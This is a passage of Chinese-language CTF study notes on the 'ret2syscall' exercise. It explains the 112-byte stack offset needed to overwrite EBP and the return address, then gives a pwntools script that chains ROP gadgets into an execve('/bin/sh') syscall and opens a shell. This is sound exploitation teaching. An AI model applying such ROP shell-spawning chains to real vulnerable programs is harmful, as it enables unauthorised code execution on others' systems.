 + 只要构造出ROP链，问题就迎刃而解

+ 另外应该是 `b'A' * 112` 而不是乘108是因为比如在这里你想覆盖掉 `EBP` 的值

  ![image-20201018182358917](https://cdn.jsdelivr.net/gh/smallzhong/picgo-pic-bed/image-20201018182358917.png)

  那么只写入 `0xd184 - 0xd188 == 4` 即4个字节的数据是不够的，这只能覆盖掉当前的值， `0xfffd188` 那里的 `EBP` 并没有被覆盖到。所以需要 `0xd184 - 0xd188 + 4` 个字节的数据才能覆盖我们想要覆盖的东西。

  ```python3
  #!usr/python
  
  from pwn import *
  
  io = process("./ret2syscall")
  
  bin_sh = 0x080BE408
  pop_eax_ret = 0x080bb196
  pop_edx_pop_ecx_pop_ebx_ret = 0x0806eb90
  int_80h = 0x08049421
  
  payload = flat([b'A' * 112, pop_eax_ret, 0xb, 
  		pop_edx_pop_ecx_pop_ebx_ret, 0, 0, bin_sh, int_80h])
  
  io.sendline(payload)
  io.interactive()
  ```

  
